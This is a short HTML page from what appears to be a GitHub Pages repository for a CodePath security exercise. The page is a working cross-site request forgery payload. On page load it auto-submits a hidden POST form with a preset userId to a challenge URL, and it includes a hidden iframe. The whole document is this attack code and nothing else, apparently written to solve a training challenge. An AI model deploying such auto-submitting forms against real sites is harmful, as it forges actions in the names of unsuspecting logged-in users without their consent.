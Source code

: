 # JLPlummer79.github.io
<html>
  <body onload="document.csrfform.submit()">
    <form name="csrfform" action="http://security.codepath.com/user/csrfchallengtwo/plusplus/" method="POST">
      <input type="hidden" name="userId" value="2eff24c04dc96585b7fadc8b1fd6d80081c3ffdd"/>
      <input type="submit"/>
    </form>
    <iframe name="hidden_results" style="display: none;">  </iframe>
  </body>
</html>

